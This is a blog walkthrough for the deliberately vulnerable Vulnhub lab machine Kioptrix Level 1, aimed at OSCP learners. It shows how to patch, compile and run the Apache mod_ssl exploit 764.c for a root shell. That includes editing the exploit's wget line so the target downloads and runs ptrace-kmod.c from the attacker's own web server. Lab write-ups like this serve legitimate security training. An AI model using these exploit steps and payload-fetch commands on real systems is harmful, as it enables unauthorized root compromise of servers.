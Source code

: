 ```yaml
---
title: "Vulnhub - Kioptrix: Level 1 (#1)"
date: 2019-04-15
categories:
  - Capture The Flag
tags:
  - Vulnhub
  - OSCP
---
```


This is an updated 2019 Vulnhub walkthrough for [**Kioptrix level 1**](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/) that is beginners difficulty (great for newbies!). If you had read some OSCP preparation blogs that mentioned this vulnerable machine is great for beginners ([abatchy's walkthrough](https://www.abatchy.com/2017/02/oscp-like-vulnhub-vms.html)) and like me, you had a hard time trying to root this machine due to issues compiling the exploit code for _Apache mod_ssl OpenSSL_, you may find this helpful.

I will try to submit this to Vulnhub even though there are already many walkthrough linked in the page but the most recent one was dated 16 May 2017 almost 2 years ago. I hope this can help those trying to root into this supposedly beginner's machine without feeling so "overwhelmed" and nothing feels better than eg. trying a lab exercise and having it work out. :) Because I understand that it sucks trying to figure out why this specific exploit didn't work for you, when a dozen other blogs already said and posted _been-there-done-this-machine_ years ago.

_As I mentioned that the purpose of writing this is more of to 'update' the instructions of compiling and executing the exploit code for apache mod_ssl vulnerability, please know that this is **not** the only way to exploit this vulnerable machine - I believe there are 2 methods (or more I don't know) eg. using metasploit to exploit once you find out that Samba version using the SMB enumeration tools like enum4linux. I am not going to show you what I tried that didn't work (like in many other blogs) but I will cut to the chase focus on how to get root by executing the exploit code for apache mod_ssl._


I started off scanning using `arp-scan -l` to find out the target's ip address. Then followed by doing a portscan using **nmap** to find out open ports, the versions for services, OS version.
![]({{site.url}}{{site.baseurl}}/assets/images/nmap-scan-ports-1.png)

Then use **nikto** to perform vulnerability scanning to see if there vulnerability that may most likely let us get root (eg. a remote shell) and you will find one [CVE-2002-0082](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082) saying it is a remote buffer overflow which may allow a remote shell.
![]({{site.url}}{{site.baseurl}}/assets/images/nikto-scan-1.png)

If you check back on the scan results previously, you will notice that this vulnerability actually lies in the outdated _Apache version 1.3.20 mod_ssl/2.8.4 for SSL port 443._![]({{site.url}}{{site.baseurl}}/assets/images/apache-mod_ssl-vulnerable.png)

Next, you can try to find the exploit associated with this vulnerability. Use **searchsploit** to search the keywords apache mod_ssl for any exploit code to use for this case.
![]({{site.url}}{{site.baseurl}}/assets/images/searchsploit-results.png)

You will notice that there is a match for _Apache mod_ssl version 2.8.7_ and below: there are 2 piece of code we can use, naturally lets just use the one that seem like the newer 'version 2' code which is located at the path '/usr/share/exploitdb/exploits/unix/remote/764.c'. Basically what you will do is copy out this .c code from the given path and then compile this exploit program. When it is compiled successfully, you will execute this with the given options eg. connecting to a target and it should return a rooted shell back to your Kali machine.

**This is the part where you will encounter issues (if you tried following other walkthroughs on how to compile this piece of c code).** Alot of googling work made below possible thanks to [https://medium.com/@javarmutt](https://medium.com/@javarmutt/how-to-compile-openfuckv2-c-69e457b4a1d1) and [https://blog.rootshellz.com/kioptrix-walkthrough-1/index.html](https://blog.rootshellz.com/kioptrix-walkthrough-1/index.html). I only managed to get this to work when I **combined** both solutions found in the mentioned blogs.



## How to Correctly Compile The Exploit Code
We will copy out the piece of code from the given path and use an editor to edit the code by using 
```bash
cp /usr/share/exploitdb/exploits/unix/remote/764.c 764.c

#edit code using nano (or your prefered editor)
nano 764.c
``` 

### part 1: add these at the top of file #include and #define

```c
#include <openssl/rc4.h>
#include <openssl/md5.h>

#define SSL2_MT_ERROR 0
#define SSL2_MT_CLIENT_FINISHED 3
#define SSL2_MT_SERVER_HELLO 4
#define SSL2_MT_SERVER_VERIFY 5
#define SSL2_MT_SERVER_FINISHED 6
#define SSL2_MAX_CONNECTION_ID_LENGTH 16
```
![]({{site.url}}{{site.baseurl}}/assets/images/codechange1.png)

* * *

### part 2: replace wget url in exploit code
There is a part in this program that is looking to download a file from a url. If you're like me, you had set up the vulnerable machine to be in a closed network (same subnet as you). The VM will have not internet access to download file. Do the following: setup a local area network webserver in the local network that will serve the file our program need (instead of downloading form the internet). The part in the code where it will go download this **ptrace-kmod.c** file from the internet is around line 672 wget command. (we will set up the webserver later)

**replace this**
```c
wget http://packetstormsecurity.nl/0304-exploits/ptrace-kmod.c
```
**with** 
```c
wget http://192.168.56.111:8000**/ptrace-kmod.c
``` 
**Note:** _"192.168.56.111:8000" should be your attacking machine ip address:8000_
{: .notice--primary}
![]({{site.url}}{{site.baseurl}}/assets/images/codechange2-1.png)

* * *

### part 3: add "const" to variable
At about line 970 add `const` to beginning of the pointer variable `unsigned char *p, *end;`
![]({{site.url}}{{site.baseurl}}/assets/images/codechange3.png)

* * *

### part 4: modify these 2 lines

At about line 1078 **replace this**
```c
(pkey->type != EVP_PKEY_RSA)
```
**with** 
```c
(EVP_PKEY_get1_RSA(pkey) == NULL)
```

At about line 1086 **replace this** 
```c
pkey->pkey.rsa
```
**with**
```c
with EVP_PKEY_get1_RSA(pkey)
```
![]({{site.url}}{{site.baseurl}}/assets/images/codechange4.png)

* * *

### part 5: install libssl-dev

Install the dependency for compiling this c program by using command
```bash
apt-get install libssl-dev
```

* * *

### part 6: compiling code

You should now be able to compile the file and not have any errors. 
```bash
gcc -o 764 764.c -lcrypto
```

* * *
## Using compiled exploitation code

The exploit code is still missing one piece of info to successfully exploit your target machine: the dependency file `ptrace-kmod.c`. We will serve from our webserver.

First, download the required file
```bash
wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
```

In the same directory that you downloaded the file, start webserver 
```bash
python -m SimpleHTTPServer
```
![]({{site.url}}{{site.baseurl}}/assets/images/simplehttpserver.png)

Now, lets test this url link and if we are able to download the file which the exploit code is looking for 
```bash
wget http://192.168.56.111:8000/ptrace-kmod.c
```
**Note:** _"192.168.56.111:8000" should be your attacking machine ip address:8000_
{: .notice--primary}

![]({{site.url}}{{site.baseurl}}/assets/images/test-simplehttpserver.png)
The link works. Lets finally exploit and get root!

To use the exploit program we compiled, see the options available by using 
```
./764
```
It will show it's usage instructions.
![]({{site.url}}{{site.baseurl}}/assets/images/runing764.png)

For `target`, we will chose available exploit option that is closest to the vulnerable Apache server version 1.3.20 (which we found out during initial scan). There are 2 available options for target, we will use the first one `0x6a`
![]({{site.url}}{{site.baseurl}}/assets/images/runing764-target.png)

Execute the exploit using 

```
.\764 0x6a 192.168.56.110 -c 50
```
**Note:** If it was unsuccessful, try the other `target` option. 
![]({{site.url}}{{site.baseurl}}/assets/images/exploit764a.png)
_hmm.. Didn't get a shell session.._
{: .notice--primary}

We know the other target available is `0x6b` instead. Let's try this instead.
![]({{site.url}}{{site.baseurl}}/assets/images/exploit764b_success.png)
_Yay got shell now!_

```
.\764 0x6b 192.168.56.110 -c 50
```
This time we had gain root into the machine. You will also notice that during the exploit, the program executed the wget ptrace-kmod.c file get from your webserver successfully. This may be the part where many had encounter an issue for trying to exploit this but ended up with _apache _user priviledges instead of root. If you do **whoami** you should see that you had gain _root_ access into the machine.

Hope this helps!
